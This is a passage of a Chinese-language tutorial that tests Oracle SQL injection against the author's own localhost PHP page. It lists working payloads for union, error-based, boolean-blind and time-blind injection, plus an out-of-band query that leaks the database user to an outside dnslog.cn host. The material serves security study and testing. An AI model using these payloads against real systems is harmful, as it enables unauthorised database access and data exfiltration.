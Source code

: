 ```php
  }
  oci_close($conn);//关闭连接
?>
```
2、访问[http://localhost/oracle.php?id=1](http://localhost/oracle.php?id=1)，返回如下界面表示搭建成功，数据库也成功连接了。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627541521049-4e04787c-15b8-4686-a485-d5d2e03e9f3f.png#align=left&display=inline&height=340&margin=%5Bobject%2Object%5D&name=image.png&originHeight=680&originWidth=1342&size=55565&status=done&style=none&width=671)
# 0x05 Oracle注入测试
## 1、检测漏洞点
```php
http://localhost/oracle.php?id=1 and 1=1
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627541538885-aab0d8c4-aafa-4511-897d-ab85f13130e2.png#align=left&display=inline&height=261&margin=%5Bobject%2Object%5D&name=image.png&originHeight=522&originWidth=1176&size=46725&status=done&style=none&width=588)
```php
http://localhost/oracle.php?id=1 and 1=2
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627541558550-37db5cd6-20ef-4b68-a731-38eca533e8fb.png#align=left&display=inline&height=222&margin=%5Bobject%2Object%5D&name=image.png&originHeight=444&originWidth=1072&size=38860&status=done&style=none&width=536)
## 2、显错注入
```php
http://localhost/oracle.php?id=-1 union all select 1,(select user from dual),3,'4' from dual --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627541979564-ea8c20f1-051d-4998-ae63-8cc4c6caf50e.png#align=left&display=inline&height=303&margin=%5Bobject%2Object%5D&name=image.png&originHeight=606&originWidth=1874&size=73845&status=done&style=none&width=937)
## 3、报错注入
```php
http://localhost/oracle.php?id=-1 and 1=ctxsys.drithsx.sn(1,(select user from dual)) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542108099-2a4e87d2-214a-4809-9762-24e01b40471b.png#align=left&display=inline&height=305&margin=%5Bobject%2Object%5D&name=image.png&originHeight=610&originWidth=2068&size=150069&status=done&style=none&width=1034)
## 4、布尔盲注
```php
http://localhost/oracle.php?id=1 and 1=(select decode(user,'SYSTEM',1,0) from dual) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542211017-7bbd5646-d87a-496e-abef-d67b929449ac.png#align=left&display=inline&height=348&margin=%5Bobject%2Object%5D&name=image.png&originHeight=696&originWidth=1774&size=76159&status=done&style=none&width=887)
```php
http://localhost/oracle.php?id=1 and 1=(select decode(user,'SSSSS',1,0) from dual) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542229391-54e9c196-437c-464a-a1ee-565b21ccee2b.png#align=left&display=inline&height=174&margin=%5Bobject%2Object%5D&name=image.png&originHeight=574&originWidth=1752&size=66181&status=done&style=none&width=532)
## 5、延时盲注
```php
http://localhost/oracle.php?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('o',5),0) from dual) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542453679-5c200dec-7af1-485d-91a1-5230c4724937.png#align=left&display=inline&height=424&margin=%5Bobject%2Object%5D&name=image.png&originHeight=848&originWidth=2060&size=180765&status=done&style=none&width=1030)
## 6、外带数据
```php
http://localhost/oracle.php?id=1 and (select utl_inaddr.get_host_address((select user from dual)||'.pgx519.dnslog.cn') from dual)is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542575557-283cc745-e90e-4d49-a82d-4d9aa836531d.png#align=left&display=inline&height=295&margin=%5Bobject%2Object%5D&name=image.png&originHeight=590&originWidth=2062&size=88703&status=done&style=none&width=1031)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627542587192-62e5df2a-2158-4204-8430-3f154aa27d6f.png#align=left&display=inline&height=402&margin=%5Bobject%2Object%5D&name=image.png&originHeight=804&originWidth=1650&size=109880&status=done&style=none&width=825)
# 0x06 总结
Oracle数据库注入测试只是简单测试了各种注入到效果，具体测试详情可以看我之前写的文章《Oracle数据库注入总结》。